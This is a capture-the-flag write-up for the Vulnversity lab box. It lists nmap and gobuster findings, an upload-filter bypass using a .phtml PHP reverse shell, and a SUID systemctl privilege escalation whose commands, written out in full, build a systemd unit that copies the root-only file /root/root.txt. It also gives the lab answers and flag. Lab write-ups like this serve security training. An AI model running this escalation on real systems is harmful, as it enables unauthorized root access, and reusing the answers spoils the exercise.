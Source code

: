 # Vulnversity

```
export ip=10.10.214.176
```
## Nmap scan in `nmap/initial`

> Scan the box, how many ports are open?

```
6
```

> What version of the squid proxy is running on the machine?

```
3.5.12
```

> How many ports will nmap scan if the flag -p-400 was used?

```
400
```

> Using the nmap flag -n what will it not resolve?

```
dns
```

> What is the most likely operating system this machine is running?

```
Ubuntu
```

> What port is the web server running on?

```
3333
```



## Gobuster on port `3333` yielded route `/internal` - might be interesting

> What is the directory that has an upload form page?

```
/internal
```

## Burpsuite find allowed extension

> Found allowed extension `.phtml`

## Uploaded `php-reverse-shell.phtml` to the `/internal` upload page of the server

> Received reverse shell

## Privelage escalation

> Found `/bin/systemctl` through this command: `find / -user root -perm /4000 2>/dev/null`

> Exploited it through setting up a service to output the flag into another file that the `www-data` user could access (`/tmp/flag.txt`)

```

touch /tmp/getflag.sh

chmod u+x /tmp/getflag.sh
echo "cat /root/root.txt > /tmp/flag.txt" >> /tmp/getflag.sh

echo "[Unit]

Description=Example systemd service.

[Service]

Type=simple

ExecStart=/bin/bash /tmp/getflag.sh

[Install]

WantedBy=multi-user.target" > /tmp/1313.service

systemctl enable /tmp/1313.service

systemctl start 1313

cat /tmp/flag.txt => a58ff8579f0a9270368d33a9966c7fd5
```

> Become root and get the last flag (/root/root.txt)

```
a58ff8579f0a9270368d33a9966c7fd5
```
